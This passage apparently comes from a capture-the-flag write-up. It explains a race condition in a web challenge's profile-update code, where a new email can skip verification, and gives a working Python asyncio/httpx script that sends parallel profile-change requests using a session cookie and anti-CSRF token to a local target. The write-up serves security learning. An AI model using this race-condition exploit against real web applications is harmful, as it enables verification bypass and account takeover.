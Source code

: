 ```python
    if result:
        if result == 'email changed':
            sendEmail(decodedToken.get('id'), email)
        return response('Profile updated!')
    
    return response('Email already in used!')
```

There is an issue with this implementation:

- The application gets the confirmation token after updating the profile in a different function and does not use the updated email from the database
- So let's say an attacker updates his profile and quickly updates his profile again before the application sends the verification

We can use the following Python script to send web requests parallel

```python
import asyncio
import httpx
import re
import requests

url = 'https://127.0.0.1:1337'
cookies = {"session": "[ADD YOUR SESSION COOKIE]"}
antiCSRFToken = "[ADD YOUR SESSION CSRF TOKEN]"

async def changeProfile(client, data):
    resp = await client.post(f'{url}/challenge/api/profile', cookies=cookies, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    return resp.text

async def main():
    async with httpx.AsyncClient(verify=False, http2=True) as client:
        tasks = []
        for i in range(2):
            tasks.append(asyncio.ensure_future(changeProfile(client, data=f"email=test@apexsurvive.htb&username=test&fullName=test&antiCSRFToken={antiCSRFToken}")))
            tasks.append(asyncio.ensure_future(changeProfile(client, data=f"email=test@email.htb&username=test&fullName=test&antiCSRFToken={antiCSRFToken}")))
            tasks.append(asyncio.ensure_future(changeProfile(client, data=f"email=test@apexsurvive.htb&username=test&fullName=test&antiCSRFToken={antiCSRFToken}")))

        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)

# Perform Race condition
asyncio.run(main())

```
